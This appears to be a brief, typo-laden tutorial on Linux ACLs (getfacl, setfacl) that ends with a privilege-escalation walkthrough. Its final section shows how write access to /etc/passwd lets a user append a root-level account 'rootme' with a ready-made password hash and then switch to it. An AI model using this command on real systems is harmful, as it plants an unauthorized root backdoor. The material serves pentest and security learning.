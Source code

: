 ## Access Control List (ACL) in Linux
ACL allow us to appy a mpre specific set of permissions to a file or directory without chaning the base ownership and permissions. In this we can assain a particular user a specfic permission and give two or more group permission.

## The primary tools for managing ACLs are:
- **getfacle**: – View ACL permissions
- **setfacl**:setfacl – Modify ACL permissions

## Checking ACL permissions
Use the getfacl command to check if a file or directory has ACLs set:
```bash
getfacl /file-path
```

Example output:
```bash
# file: file-name
# owner: root
# group: root
user::rw-
user:user1:rwx
group::r--
mask::rwx
other::---
```
Here, the user user1 has rwx permissions on the file, even though he is not the owner.

## Exploiting Misconfigured ACLs
If a user has excessive permissions on sensitive files or executables, privilege escalation may be possible.

### **Write Permissions on /etc/passwd**
If an unprivileged user has write access to /etc/passwd, they can modify it to create a new user with root privileges.

Check ACLs on /etc/passwd
```bash
getfacl /etc/passwd
```
output:
```bash
# file: etc/passwd
# owner: root
# group: root
user::rw-
user:user1:rwx
group::r--
mask::rwx
other::---
```
user1 has write access, they can add a new root user manually:
```bash
echo 'rootme:$1$gi/ZEUV2$uaJQ9FUakihoLNuErGCkw0:0:0:root:/root:/bin/bash' >> /etc/passwd
```
Then, switch to the new root user:
```bash
su rootme
```
Password is 123
